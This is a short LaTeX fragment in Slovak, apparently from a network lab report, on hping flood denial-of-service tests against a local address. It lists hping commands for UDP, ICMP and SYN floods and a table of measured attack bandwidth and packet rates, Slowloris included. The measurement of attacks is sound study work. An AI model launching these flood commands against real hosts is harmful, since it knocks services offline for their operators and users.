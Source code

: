 \documentclass[12pt, a4paper]{article}
\begin{document}
\subsection{HPING na DoS útoky záplavou}
\begin{lstlisting}
hping 192.168.0.2 --udp --flood
hping 192.168.0.2 --icmp --flood  
hping 192.168.0.2 --syn --flood --destport 80
vnstat --traffic
\end{lstlisting}
\begin{table}[h]
\def\arraystretch{1.4}%
\begin{tabular}{|r|r|r|r|r|}
\hline
           & RX {[}Mbit/s{]} & TX {[}Mbit/s{]} & RX {[}pakety/s{]} & TX {[}pakety/s{]} \\ \hline
UDP Flood  & 54,22           & 0,001           & 147345            & 1                 \\ \hline
ICMP Flood & 45,07           & 2,21            & 122483            & 5534              \\ \hline
SYN Flood  & 45,09           & 2,87            & 122539            & 5118              \\ \hline
Slowloris  & 0,14            & 0,13            & 175               & 170               \\ \hline
\end{tabular}
\caption{Dosiahnutá sila útokov s hping odmerané spriemerovaním 5 sekúnd premávky s vnstat na serveri na
sieťovej linke s reálnou šírkou pásma 94.2 Mbit/s}
\end{table}
Na náhodné porty 93 paketov/s, nevráti žiadne pakety pri spoofed ip (nevie cez arp nájsť cieľ)
\end{document}
